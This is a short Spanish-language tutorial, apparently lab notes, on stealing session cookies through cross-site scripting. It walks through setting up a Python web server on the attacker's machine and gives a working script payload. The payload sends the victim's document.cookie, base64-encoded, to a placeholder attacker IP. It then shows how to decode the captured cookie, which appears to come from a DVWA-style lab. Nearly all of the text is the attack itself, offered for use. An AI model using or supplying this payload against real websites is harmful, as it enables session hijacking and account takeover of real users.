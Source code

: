 # Ataque de Robo de Cookies con XSS

Buscar cuál es la dirección IP de la máquina atacante:  
`ifconfig`  

Montar un servidor web para almacenar la cookie que voy a robar:  
`python3 -m http.server 80`  

Ejecutar el siguiente código de XSS. Este código para a buscar por una imagen almacenada en la IP del atacante.  
Obviamente la imagen no existe, pero la víctima va a hacer una petición al servidor web creado anteriormente y va a mandar la cookie de la sesión en ese paquete.  

`<script>var i=new Image(); i.src="http://IP-DEL-ATACANTE/?cookie="+btoa(document.cookie);</script>`  

Finalmente, decodificar el texto capturado, ya que está en formato Base64.  
Esto se puede realizar con alguna herramienta en línea como: https://www.base64decode.org
También lo puede hacer en Kali utilizando el aplicativo `base64` con el flag `-d`:  
`echo c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YjRlYjVkNmY1NmRhYTc5YzVlMGVjMjQyMjFiOTE0MDA | base64 -d`
